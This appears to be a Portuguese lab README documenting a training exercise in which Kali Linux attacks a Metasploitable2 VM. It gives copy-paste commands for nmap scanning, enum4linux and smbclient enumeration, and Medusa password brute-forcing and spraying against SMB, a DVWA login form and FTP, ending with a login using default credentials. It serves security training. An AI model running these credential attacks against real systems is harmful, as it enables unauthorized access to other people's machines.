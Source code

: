 
## 🧪 Ambiente de Teste

| Máquina        | Função   | IP                |
|----------------|----------|-------------------|
| Kali Linux     | Atacante | `192.168.77.249`  |
| Metasploitable2| Alvo     | `192.168.77.250`  |

Teste de conectividade confirmado via `ping` (ver evidência).

---

## 🔧 Comandos principais executados (prontos para copiar/colar)

### Teste de conectividade / interfaces (no alvo)
```
# Mostrar interfaces e IPs (no alvo)
ip a

# Testar conectividade com a VM atacante (no alvo)
ping 192.168.77.249

# Varredura de versão em portas relevantes
nmap -sV -p 21,22,80,139,445,137 192.168.77.250

# Enumeração completa do Samba e salvar a saída
enum4linux -a 192.168.77.250 | tee enum4_output.txt

# Enumeração completa do Samba e salvar a saída
enum4linux -a 192.168.77.250 | tee enum4_output.txt

# Listar shares do servidor SMB como usuário msfadmin
smbclient -L \\192.168.77.250 -U msfadmin

# Criar lista de usuários (cada nome em nova linha)
echo -e "user\nmsfadmin\nservice" > smn_users.txt

# Criar lista de senhas para spraying
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

# Executar Medusa contra SMB (módulo smbnt)
medusa -h 192.168.77.250 -U smn_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50

# Criar listas de usuários e senhas
echo -e "user\nmsfadmin\nnadmim\nrroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

# Executar Medusa contra o formulário do DVWA
medusa -h 192.168.77.250 -U users.txt -P pass.txt -M http \
  -m FORM:"username=^USER^&password=^PASS^&Login=Login" \
  -m PAGE:"dvwa/login.php" -m FAIL="Login failed" -t 6

# Executar brute-force FTP com medusa
medusa -h 192.168.77.250 -U users.txt -P pass.txt -M ftp -t 6

# Acessar FTP manualmente para validar credenciais encontradas
ftp 192.168.77.250

# Quando solicitado:
# Nome de usuário: msfadmin
# Senha: msfadmin
```